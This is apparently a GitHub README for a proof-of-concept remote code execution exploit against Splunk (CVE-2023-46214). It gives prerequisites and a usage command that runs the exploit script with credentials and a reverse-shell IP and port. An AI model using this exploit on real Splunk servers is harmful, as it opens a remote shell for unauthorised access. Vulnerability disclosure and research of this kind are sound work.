

# Splunk RCE - PoC

Proof of concept exploit for recent [CVE-2023-46214](https://nvd.nist.gov/vuln/detail/CVE-2023-46214), [SVD-2023-1104](https://advisory.splunk.com/advisories/SVD-2023-1104)



## Usage

The Splunk instance URL, username, password, reverse shell IP, and port are all required as command-line parameters. For example:

```console
$ python3 CVE-2023-46214.py --url <Splunk_URL> --username <Username> --password <Password> --ip <Reverse_Shell_IP> --port <Reverse_Shell_Port>
```

## Prerequisites

- Splunk credentials with upload permission to adddatamethods
    - Note: another vector might be possible, this is just what I used
- Splunk is not running on SHC mode

## Legal Disclaimer

The Proof of Concept (PoC) script provided in this repository serves solely for educational and research objectives. Its purpose is to showcase a specific vulnerability and aid in comprehending associated security risks.

Any use of this script for unauthorized activities, including but not limited to unauthorized system access, unauthorized testing, or other forms of misuse, is unequivocally forbidden.

The creators and contributors of this repository disclaim all liability for the improper use or any damage or harm resulting from the use of this script. By utilizing this script, you consent to use it in a responsible manner and at your own risk.